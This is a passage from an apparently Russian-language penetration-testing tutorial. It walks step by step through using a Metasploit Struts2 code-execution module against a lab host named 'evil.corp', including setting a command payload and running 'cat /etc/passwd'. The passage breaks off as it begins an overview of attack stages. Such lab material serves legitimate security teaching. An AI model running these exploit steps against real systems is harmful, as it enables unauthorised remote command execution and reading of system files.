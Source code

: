 4. Воспользуемся эксплойтом:

```commandline
msf6> exploit/multi/http/struts2_code_exec_showcase
```

5. Изучим эксплойт и его настройки:

```commandline
msf6> info

msf6> options
```

7. Настроим эксплойт:

```commandline
msf6> set RHOSTS evil.corp
```

8. С помощью браузера подберем значение для опции TARGETURI; так как стандартный путь не работает – проверим TARGETURI
   /integration/saveGangster.action и убедимся, что он работает:

```commandline
msf6> set TARGETURI /integration/saveGangster.action
```

9. Подготовим полезную нагрузку для выполнения произвольных команд:

```commandline
msf6> set PAYLOAD cmd/unix/generic

msf6> set CMD id
```

10. Запустим эксплойт и убедимся, что у нас есть права root:

```commandline
msf6> run
```

11. Поменяем команду:

```commandline
msf6> set CMD cat /etc/passwd

msf6> run
```

### Общие принципы

Рассмотрим все этапы базового примера по отдельности:

- Обнаружение цели
- Исследование цели
- Поиск уязвимостей
- Подбор эксплойта
- Эксплуатация уязвимости

#### Этап 1. Обнаружение
